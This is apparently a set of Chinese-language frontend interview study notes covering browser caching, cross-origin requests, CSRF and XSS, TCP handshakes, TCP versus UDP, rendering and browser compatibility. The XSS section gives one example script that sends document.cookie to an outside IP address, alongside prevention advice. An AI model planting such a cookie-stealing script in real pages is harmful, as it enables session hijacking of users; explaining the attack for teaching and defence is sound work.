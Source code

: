 # 浏览器

### 问题一 ：前端性能优化 

#### 浏览器缓存
    合理运用浏览器缓存可以减少服务器压力，提高网页响应速度,浏览器会根据响应header里的缓存相关字段来设置缓存，浏览器缓存分为强缓存和协商缓存，优先强缓存
    强缓存:强制使用缓存 通过响应头 Cache-Control：（private,public,no-cache,mag-age=0,no-store）字段控制  如果传了no-cache 证明需要使用协商缓存
    协商缓存:每次使用前需要和服务器协商一下是否使用缓存，服务器通过响应头（Etag：1）决定是否应用协商缓存， (以后每次请求 都会在头里带上If-None-Match:1) 
    如果返回304 继续使用缓存，如果服务器数据已更新（修改Etag值），重新返回200 和新的responseBody数据 替换缓存. 
#### 图片
    使用精灵图 减少图片资源，可以使用图片懒加载
#### 压缩
    使用gzip压缩服务返回的数据 请求头设置（Accept-Encoding: GZIP, Deflate） 服务器 设置响应头Content-Encoding: GZIP

### 问题二 ：对跨域的理解和解决
    浏览器出于安全考虑，一个源的网站不允许与另一个源的网站交互，同源即 协议 主机 端口都相同
    跨域资源嵌入是可以的 但是不能与javascript交互 <img> <script> <link> <iframe>

    1.通过后台响应头设置允许跨域 
    2.通过nginx 监听同一端口  通过/api 路径来区分不同服务的访问

### 问题三 ：csrf和xss攻击理解和预防
    csrf 利用浏览器信任 统一domain下的请求，会携带cookie  a打开银行网站,登录后没关闭此窗口，然后打开了含有攻击性的网站,网站内有<img src='http://转账代码'> 头中会携带cookie
    预防 ：1.数据安全性高高的避免使用 get请求 ，2.用token认证  3.对接口加验证码校验
    xss 嵌入恶意的js代码然后获取用户cookie  比如博客评论 在内容里嵌入<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script> 我的服务就拿到了cookie
    预防：1.过滤特殊字符  2. 将`cookie`设置为`http-only`,`js`脚本将无法读取到`cookie`信息。

### 问题四 tcp 连接的三次握手为什么不能改成2次
    考虑到client A 请求与服务B建立连接,由于网络原因这次报文一定时间内没到达B ，A又发起了一次连接现在开始传数据没传完后关闭，一开始那次请求，到达了B ,B现在发送确认请求，
    然后一直等着A 来发送数据，A本身已经不想发送数据了，这样造成了服务资源浪费。
### 问题五 简述tcp连接3次握手过程
    第一次握手，客户端主动连接服务器，发送初始序列号'seq =x','SYN = 1'同步标志 进入SYN_SEND同步发送状态
    第二次握手，服务器收到消息后 发送确认同步标志 'SYN=1'和确认标志'ACK=1',并发送自己的序列号'seq=y'和客户端确认序列'ack=x+1' 进入同步接收'SYNC_RECV'状态
    第三次握手，客户端接收后 发送确认标志 'ACK=1'和自己的序列号'seq=x+1'与服务器确认号'ack=y+1'进入建立连接状态，服务器收到后也进入连接状态 
### 问题五 简述tcp和udp的区别
   TCP：                                                                        UDP：
   面向连接，可以传输相对较大数据                                                  无连接，可以传输的数据相对较小
   使用流量控制，拥塞控制保证可靠                                                  不使用流量控制和拥塞控制，尽最大努力交付
   只能一对一通信                                                                 一对一，一对多，多对多，多对一通信
   保证传输顺序                                                                   不保证传输顺序
   提供校验和，确认应答，流量控制，拥塞控制 超时重传，序列号，连接管理       
   适用于可靠传输，文件传输                                                        应用于直播，网络电话，视频会议 
### 问题六 简述tcp粘包解决方案
   粘包 服务端会将间隔时间较小连续发送的包粘起来组成一个大包 
   解决：将每次传输的消息分为消息头和消息体，消息头包含这次传输的总长度，服务端解析

### 问题七 浏览器渲染过程
   自上而下先解析<html>形成'DOM Tree'
   如果解析到<Link><Style>解析css 形成'CSS Tree' html和css解析开始并行解析
   遇到<Script>停止文档解析 开始解析js 
   'Dom Tree 和CSS Tree'生成后，将两者结合布局，计算大小位置等,生成'render Tree'
   根据计算好的信息，调用paint ，将内容显示在屏幕上
### 问题八 重绘 回流
   重绘：'render tree'中一些影响外观，但是不影响布局的属性改变，比如bgc-color，整棵树不需要重新构建
   回流： 布局，元素尺寸大小改变，需要重新绘制整棵树，就是回流，页面第一次加载就是回流
### 常见的兼容性问题
   浏览器由于版本不同，内核不同，导致最后渲染出来的的结果有不同，通常使用normalize抹平样试差异 
   默认边距也可能不同
   ie4-8 不支持css3 opacity属性，可以通过css filter来设置
   ie4-8 不支持媒体查询，不支持html5新标签 
   ie4-8 window.event.returnValue =false 阻止默认行为      window.event.cancelBubble = true 防止事件冒泡
   webkit内核 event.preventDefault()                      event.stopPropagation()
### 浏览器默认行为（直接在处理函数中加return false也会阻止默认行为）
<a href="">会默认跳转地址 通过监听事件 阻止默认行为 就不能跳转了
<input> 获得焦点后 敲击键盘会自动输入 阻止后 键盘输入无效
 type为submit的input 或者<button>都会触发表达提交，阻止后不提交
